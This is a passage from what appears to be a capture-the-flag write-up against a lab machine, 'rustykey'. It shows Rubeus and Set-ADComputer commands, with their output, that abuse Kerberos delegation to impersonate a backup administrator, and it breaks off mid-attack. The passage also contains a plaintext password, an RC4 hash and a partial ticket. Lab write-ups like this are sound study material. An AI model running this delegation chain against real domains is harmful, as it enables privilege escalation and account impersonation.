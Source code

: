 With mm.turner's credentials, in our new reverse shell, we're going to load up PowerView.ps1 and ActiveDirectory modules for good measure. From here we're going to update the principal delegate, create the delegation ticket, then use the delegated ticket to impersonate backupadmin
```sh
# Add the ability to delegate to it-computer3
PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount it-computer3$

# Generate the hash we'll need to create tickets as it-computer3
PS C:\Windows> C:\Windows\Temp\Rubeus.exe hash /password:Rusty88!

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3 


[*] Action: Calculate Password Hash(es)

[*] Input password             : Rusty88!
[*]       rc4_hmac             : B52B582F02F8C0CD6320CD5EAB36D9C6

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!

# Use the hash to generate our ticket with delegation from that user, as mm.turner who has access to set the principal
PS C:\Windows> C:\Windows\Temp\Rubeus.exe tgtdeleg /user:it-computer3$ /rc4:B52B582F02F8C0CD6320CD5EAB36D9C6 /domain:rustykey.htb /domaincontroller:dc.rustykey.htb /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc.rustykey.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: rc4_hmac
[*] Extracted the service ticket session key from the ticket cache: yMerBMOlnsWJf7CxhFDAaA==
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFkDCCBYygAwIBBaEDAgEWooIEpDCCBKBhggScMIIEmKADAgEFoQ4bDFJVU1RZS0VZLk<snip>wNjU1MTVaqA4bDFJVU1RZS0VZLkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMUlVTVFlLRVkuSFRC

# And finally s4u proxy auth all of ti together to generate our final impersonation ticket
PS C:\Windows> 
C:\Windows\Temp\Rubeus.exe s4u /user:it-computer3$ /rc4:B52B582F02F8C0CD6320CD5EAB36D9C6 /impersonateuser:backupadmin /msdsspn:cifs/dc.rustykey.htb /domain:rustykey.htb /dc:dc.rustykey.htb /nowrap

   ______        _                      
  (_____ \      | |                     
```